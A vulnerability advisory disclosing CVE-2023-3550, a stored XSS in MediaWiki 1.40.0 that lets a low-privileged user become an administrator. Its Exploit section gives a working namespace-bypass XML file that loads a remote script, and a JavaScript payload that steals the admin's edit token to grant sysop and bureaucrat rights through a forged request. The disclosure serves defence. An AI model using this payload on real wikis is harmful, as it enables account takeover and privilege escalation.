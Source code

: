 ```yaml
---
slug: advisories/blondie/
title: Stored XSS leads to privilege escalation in MediaWiki v1.40.0
authors: Carlos Bello
writer: cbello
codename: blondie
product: MediaWiki
date: 2023-07-17 12:00 COT
cveid: CVE-2023-3550
severity: 7.3
description: Stored XSS leads to privilege escalation in MediaWiki v1.40.0
keywords: Fluid Attacks, Security, Vulnerabilities, Media Wiki, Stored XSS, CSRF, Privilege Escalation
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Stored XSS leads to privilege escalation in MediaWiki v1.40.0      |
| **Code name**         | [Blondie](https://en.wikipedia.org/wiki/Blondie_(band))            |
| **Product**           | product: MediaWiki                                                 |
| **Affected versions** | Version 1.40.0                                                     |
| **State**             | Private                                                            |
| **Release date**      | 2023-07-17                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Stored cross-site scripting                                                                                                 |
| **Rule**              | [010. Stored cross-site scripting](https://docs.fluidattacks.com/criteria/vulnerabilities/010)                              |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-3550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3550)                                               |

## Description

Mediawiki v1.40.0 does not validate namespaces used in XML files.
Therefore, if the instance administrator allows XML file uploads,
a remote attacker with a low-privileged user account can use this
exploit to become an administrator by sending a malicious link to
the instance administrator.

## Vulnerability

In Mediawiki v1.40.0, an authenticated remote attacker can escalate
his privileges through a Stored XSS. Thanks to this, we can perform
a CSRF on an administrative account to escalate the privileges of an
arbitrary account.

The Stored XSS is caused by MediaWiki v1.40.0 not validating the
namespaces used in XML files. Thanks to this we can bypass the script
detection security controls.

### Exploit failed

Here our exploit attempt fails, thanks to the script being detected
correctly:

![exploit-failed](https://user-images.githubusercontent.com/51862990/251885755-675ccfe7-825d-45af-924b-868cf5b38be2.png)

### Exploit Success

Here the exploit worked, since we bypassed the script detection controls
by using a namespace:

![exploit-success](https://user-images.githubusercontent.com/51862990/251885730-084c14e6-fc19-4a26-aa7a-564f1331070b.png)

## Exploit

To exploit the vulnerability we built an XML file that uses a namespace to
bypass script detection protection. This script loads an external script which
seeks to escalate the privileges of an account when the administrator accesses
the malicious XML link through a CSRF.

### exploit.xml

```xml
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="http://localhost:7777/payload.js">
</x:script>
```

### payload.js

```js
var token = "";

fetch('http://localhost:8080/mediawiki-1.40.0/index.php?title=Special%3AUserRights&user=Hacker', {
  credentials: 'include'
})
.then(response => response.text())
.then(html => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, 'text/html');
    token = doc.getElementsByName('wpEditToken')[0].value;

    // Llamar a la segunda solicitud POST después de obtener el token
    return fetch('http://localhost:8080/mediawiki-1.40.0/index.php/Special:UserRights', {
        method: 'POST',
        credentials: 'include',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body: 'user=Hacker&wpEditToken=' + encodeURIComponent(token) + '&conflictcheck-originalgroups=&wpExpiry-bot=infinite&wpExpiry-bot-other=&wpGroup-sysop=1&wpExpiry-sysop=infinite&wpExpiry-sysop-other=&wpGroup-interface-admin=1&wpExpiry-interface-admin=infinite&wpExpiry-interface-admin-other=&wpGroup-bureaucrat=1&wpExpiry-bureaucrat=infinite&wpExpiry-bureaucrat-other=&wpExpiry-suppress=infinite&wpExpiry-suppress-other=&user-reason=&saveusergroups=Save+user+groups'
    });
})
.then(response => {
    console.log('Respuesta:', response);
})
.catch(error => {
    console.error('Error:', error);
});
```

## Evidence of exploitation

Here is a step-by-step description of how to exploit this vulnerability.
Basically what will be shown below is how a user with low privileges can
increase his privileges by sending a malicious link to the instance administrator.

<iframe src="https://www.veed.io/embed/b8d55a6b-7b89-42ba-8405-6d2e9977479e"
width="835" height="504" frameborder="0" title="XSS-MediaWikiv1.40.0-Part1"
webkitallowfullscreen mozallowfullscreen allowfullscreen controls>
</iframe>

<iframe src="https://www.veed.io/embed/c217726e-cfbf-4d8b-9453-c8d66946cc12"
width="835" height="504" frameborder="0" title="XSS-MediaWikiv1.40.0-Part2"
webkitallowfullscreen mozallowfullscreen allowfullscreen controls>
</iframe>

## Our security policy

We have reserved the CVE-2023-3550 to refer to these issues from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: MediaWiki 1.40.0

* Operating System: MacOS

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.mediawiki.org/wiki/MediaWiki>

## Timeline

<time-lapse
  discovered="2023-07-07"
  contacted="2023-07-07"
  replied="2023-07-07"
  confirmed=""
  patched=""
  disclosure="2023-07-17">
</time-lapse>
